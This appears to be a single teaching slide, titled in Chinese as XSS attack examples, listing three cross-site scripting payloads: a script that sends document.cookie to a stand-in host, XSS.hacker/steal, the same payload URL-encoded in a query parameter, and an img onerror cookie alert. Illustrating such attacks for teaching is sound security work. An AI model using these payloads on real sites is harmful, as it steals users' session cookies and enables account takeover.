

# XSS攻击案例
<div><script>location.href='http://XSS.hacker/steal?cookie='+document.cookie;</script></div>

http://web.site/index.php?userid=%3Cscript%3Elocation.href%3D%27http%3A%2F%2FXSS.hacker%2Fsteal%3Fcookie%3D%27%2Bdocument.cookie%3B%3C%2Fscript%3E

http://web.site/index.php?userid=<img src=1 onerror=alert(document.cookie)>